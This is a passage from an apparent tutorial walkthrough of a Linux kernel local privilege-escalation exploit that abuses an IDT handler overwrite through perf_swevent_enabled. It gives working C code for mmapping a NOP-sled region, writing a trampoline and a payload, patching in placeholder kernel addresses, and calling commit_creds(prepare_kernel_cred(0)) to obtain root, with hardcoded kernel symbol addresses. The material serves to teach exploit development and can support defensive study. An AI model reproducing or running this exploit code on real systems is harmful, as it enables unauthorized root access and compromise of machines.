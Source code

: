 ### Return to userspace
 
Let's assume that previous loop found the pointer to the IDT structure that has the handler at 0xffffffff816a8140. After triggering the exploit the handler address will be 0x00000000816a8140. Now it points to user space. The next step would be to copy the exploit code there. However, before any operation can be performed on that address the page has to be mmapp'ed.  
To be on a safe side it is better to mmap large memory region so it covers maximum number of possible addresses. `kbase = idt.addr & 0xff000000;` would be a good base for the mmap and `KSIZE=0x2000000` should be enough. For example, if idt.addr would be 0xffffffff81dd6000 masking it with 0xff000000 results in a base of 0x81000000. 

```c
assert((code = (void*)mmap((void*)kbase, KSIZE, 7, 0x32, 0, 0)) == (void*)kbase);
memset(code, 0x90, KSIZE); code += KSIZE-1024; memcpy(code, &payload, 1024);
memcpy(code-13,"\x0f\x01\xf8\xe8\5\0\0\0\x0f\x01\xf8\x48\xcf", 13);
```

Line 2: the newly mmaped memory region is filled with nops (0x90) first. Secondly, the payload is copied into the last page (1024) of that memory region. It ensures that we can land anywhere in that region and the payload will be executed after the sled.  
Line 3: just before the payload 13 bytes of the trampoline is added. The purpose of it is to transition the execution from a userspace to kernelspace, jump to the payload and return from the syscall back to the userspace.

### Payload

The payload has 2 objectives. First, restore the IDT handler address. Second, elevate privileges with commit\_creds() technique. 
Line 14: the fixptr pointer holds a placeholder value. This value is searched for in a loop in line 24. The loop goes 3 times. Each time is calculates a placeholder value (line 25) and searches for it in the code section - the payload. Once the placeholder is found, it is being replaced with an address of the IDT offset address that was overflown earlier. As fixptr address now points to the IDT, the address can be restored by writing -1 to it (0xffffffff).  
Another 2 placeholders are marked to be replaced with addresses of commit\_creds and prepare\_kernel\_cred that are specific to each kernel version. Once all this is fixed and assigned, the commit\_creds() function is called with a NULL value. It updates the credentials set in the current task to the new value. In this case NULL. 

```c
uint64_t targets[3][3] =
            {{0xffffffff81ef67e0,  // perf_swevent_enabled
              0xffffffff81091630,  // commit_creds
              0xffffffff810918e0}, // prepare_kernel_cred
             
/.../

#define AB(x) ((uint64_t)((0xababababLL<<32)^((uint64_t)((x)*313337))))

typedef int __attribute__((regparm(3))) (*commit_creds_fn)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (*prepare_kernel_cred_fn)(unsigned long cred);

void __attribute__((regparm(3))) payload() {
	uint32_t *fixptr = (void*)AB(1);
	// restore the handler
	*fixptr = -1;
	commit_creds_fn commit_creds = (commit_creds_fn)AB(2);
	prepare_kernel_cred_fn prepare_kernel_cred = (prepare_kernel_cred_fn)AB(3);
	commit_creds(prepare_kernel_cred((uint64_t)NULL));
}

/.../

	for (j = 0; j < 3; j++) {
		needle = AB(j+1);
		assert(p = memmem(code, 1024, &needle, 8));
```